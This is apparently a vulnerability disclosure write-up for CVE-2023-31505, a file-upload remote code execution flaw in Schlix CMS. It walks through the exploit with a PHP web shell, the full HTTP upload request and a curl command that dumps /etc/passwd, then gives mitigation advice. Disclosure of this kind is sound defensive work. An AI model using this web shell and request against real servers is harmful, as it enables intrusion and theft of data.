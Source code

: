 ```yaml
---
title: Schlix CMS v2.2.8-1 - Remote Code Execution (CVE-2023-31505)
tags: [CVE, 0day, RCE, schlix, CMS]
style: border
color: warning
description: ""
---
```


## Introduction

- **CVE-ID:** [CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- **Vulnerability Type:** Arbitrary File Upload Remote following Code Execution (Authenticated)
- **Affected Product Code Base:** Schlix CMS v2.2.8-1
- **Affected Component:** Affected source code 'core.mediamanager' file
- **Attack Type:** Remote 
- **Impact:** Arbitrary file uploads and remote code execution to compromise the server.
- **Attack Vectors:** To exploit the vulnerability, it is required to be authenticated with a user with access to the File Media Manager.

## Description

An authorized user can upload a file with *.phtml* extension to a path of his choice and control the content at will. This causes remote code execution (RCE) on the server.

## Exploitation

Login to admin panel with true credentials and go to "Tools -> Media Manager" menu from left side.

![](../assets/img/cve-2023-31505/1.png)

Click the "Upload File" and upload a file in "images" folder and catch the request with Burp.

![](../assets/img/cve-2023-31505/2.png)

But we can see that it does not accept this type of files.

![](../assets/img/cve-2023-31505/3.png)

But on the contrary, the application does accept "*.phtml*" files, so we uploaded a proof of concept:

![](../assets/img/cve-2023-31505/4.png)

In the following image, it is evident that the file is hosted and it is possible to execute PHP commands:

![](../assets/img/cve-2023-31505/6.png)

Create a new file called "*test.phtml*" and add the code "*<? passthru($_REQUEST['c']); ?>*" and send the request to the server.

#### HTTP Request
```
POST /SCHLIX_CMS/admin/app/core.mediamanager?&ajax=1&action=upload HTTP/1.1
Host: <HOST>
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Schlix-Ajax: 1
Content-Type: multipart/form-data; boundary=---------------------------3094465041174962963743050336
Content-Length: 953
Origin: https://<HOST>
Connection: close
Referer: https://<HOST>/SCHLIX_CMS/admin/app/core.mediamanager
Cookie: users_currentCategory=2; core-mediamanager_currentCategory=%2Fmedia%2Fimages; scx56bdae0553f4c0fbf7ca9c95614b5989=ad3705ecc421a565a3f11ae837e38fc8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="_csrftoken"

b45ef3afd5319dbdd559121de72ca19e6effa322
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="uploadstartpath"

/media/images
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata[]"; filename="test.phtml"
Content-Type: application/x-php

// Proof of concept
<? passthru($_REQUEST['c']); ?>
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="MAX_FILE_SIZE"

8388608
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata__total_file_size"

0
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="filedata__max_file_count"

20
-----------------------------3094465041174962963743050336--
```


Go to "*https://HOST/SCHLIX_CMS/web/main/media/images/test.phtml?c=/etc/passwd*" or execute with **curl**.

#### Executing commands with curl

```bash
> curl -s -X POST https://<HOST>/SCHLIX_CMS/web/main/media/images/test.phtml -d "c=cat /etc/passwd"
// Proof of concept
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
soft:x:1000:1000::/home/soft:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
emps:x:995:1001::/home/emps:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
exim:x:93:93::/var/spool/exim:/sbin/nologin
vmail:x:5000:5000::/var/local/vmail:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
*******:x:993:993::/home/*******:/bin/bash
apache:x:992:991::/home/apache:/sbin/nologin
```

#### Result of the evidence
![](../assets/img/cve-2023-31505/7.png)

## Mitigation
- Restrict invalid file types, allowing only image files (e.g. Jpg, png, etc.).
- Perform file integrity check, validating that it is an expected file type and not a malicious one.
- Store these files outside the application (e.g. S3 AWS Buckets), preventing the attacker from getting relevant information or compromising the host server.

## Acknowledgments
We would like to thank [**MITRE CVE**](https://cve.mitre.org/) for their attention and speed in the procedures with the CVE identifier.

## References
- [Mitre - CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- [OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)